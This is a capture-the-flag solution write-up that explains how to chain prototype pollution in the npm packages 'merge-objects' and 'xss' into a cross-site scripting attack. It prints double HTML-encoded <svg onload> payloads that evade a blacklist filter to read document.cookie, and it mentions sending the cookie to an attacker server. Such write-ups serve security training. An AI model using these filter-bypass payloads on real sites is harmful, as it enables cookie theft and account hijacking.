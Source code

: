 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so that if players want to access the `document.cookie` value, they have to take advantage of the fact that the XSS filter does not re-escape attribute values.

As an example, the payload
```<svg onload="alert(document.cookie)">``` 
would easily be caught by the blacklist filter because it contains multiple c's. HTML encoding the JavaScript portion once would give you
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
which would still be caught as it would revert to
```html
<svg onload="alert(document.cookie)">
``` 
once it is un-escaped by the XSS filter. HTML encoding the JavaScript portion of the payload twice works because 
```html
<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>
```
becomes 
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
after passing through the XSS filter. This payload will also now make it past the blacklist filter and be served as a webpage to the hero, which un-escapes it an additional time and interprets it as
```html
<svg onload="alert(document.cookie)">
``` as intended. Please note that the actual payload will need to send the cookie to another server controlled by the attacker and the above payload is just for illustrative purposes.

The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a "c", as a lot of the most common ones do (e.g. <code><s<b>c</b>ript sr<b>c</b>=...</code>, <code><img sr<b>c</b>=...</code>, <code><iframe sr<b>c</b>=...</code>, etc.).

Additonally, here is a list of XSS payloads that I used to find one that can be triggered without using a "c": https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
